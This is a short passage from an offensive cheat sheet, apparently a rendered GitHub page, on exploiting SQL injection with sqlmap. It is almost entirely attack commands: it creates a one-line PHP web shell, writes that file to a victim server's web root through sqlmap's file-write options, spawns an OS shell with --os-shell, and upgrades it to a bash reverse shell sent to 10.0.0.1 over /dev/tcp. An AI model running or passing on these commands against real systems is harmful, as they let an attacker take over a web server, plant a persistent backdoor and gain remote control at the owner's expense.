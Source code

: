 ```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

### Writing this file into victim Server

```
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

## **OS Command Execution**

```
sqlmap -u "http://www.example.com/?id=1" --os-shell
```

If this command does not return any command result, we can specify another technique using:

```
sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```

If  you get a os shell, you can uprade your connection using

```powershell
os.shell>bash -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
```
